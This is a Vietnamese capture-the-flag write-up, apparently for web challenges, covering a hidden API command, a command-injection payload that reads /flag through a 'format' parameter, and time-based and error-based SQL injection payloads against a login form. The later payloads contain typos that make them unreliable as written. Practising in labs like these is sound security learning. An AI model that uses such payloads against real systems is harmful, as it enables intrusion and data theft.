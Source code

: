 # Flag Command

## Appilcation Overview
Trang home page khi mình visit nó sẽ như sau
![image](https://hackmd.io/_uploads/SkVCsQt0p.png)

Thử bắt các request đến server với Burp Suite. Source code của app này có 3 file chính `game.js`, `main.js`, `command.js` cùng với đó là nó sẽ call api với các endpoint `options` và `monitor`.
![image](https://hackmd.io/_uploads/S1NW3mKRT.png)

Ở đây mình thấy response của endpoint options chứa các command hợp lệ của các step khác nhau, nhưng ở đây chứa 1 command kì lạ với key là `secret`: `"Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"`

Nhập command này vào endpoint monitor, mình sẽ có được flag.
![image](https://hackmd.io/_uploads/ry3ypQKR6.png)

# Time KORP

## Application Overview 
![image](https://hackmd.io/_uploads/rJy-JNYR6.png)

Đây là 1 challenge command injection đơn giản, khi app đưa thẳng input của user với parameter là `format` vào hàm `exec` mà không có validate gì cả.
![image](https://hackmd.io/_uploads/S1k307YRT.png)

Việc ở đây là chỉ cần escape dấu single quote đúng cách và làm sao không làm hỏng câu command gốc của app là được. Ở đây mình sẽ thử với chính máy của mình sau đó mới đưa payload lên app sau.

Với payload `format=';ls '.` mình đã thành công command injection. 
![image](https://hackmd.io/_uploads/HJkYy4t0p.png)

Đọc DockerFile mình thấy flag được đặt ở `/flag`
![image](https://hackmd.io/_uploads/BymCyVYC6.png)

Payload: `format=';cat '/flag`
![image](https://hackmd.io/_uploads/SyVlgEKAp.png)

# KORP Terminal 
`username=' or if(substring(database(),1,1)='K', benchmark(3000000,MD5(1)), 1) = 1 -- -&password=test`

`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+schema_name+FROM+INFORMATION_SCHEMA.SCHEMA),'~'))+--+-&password=test`
Với payload này thì lỗi trả về là Subquery returns mỏe than 1 row. Thay vào đó sử dụng group_concat vào chỗ schema_name thì nó sẽ nối các kết quả lại thành 1 string.
`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+group_concat(schema_name)+FROM+INFORMATION_SCHEMA.SCHEMA),'~'))+--+-&password=test`
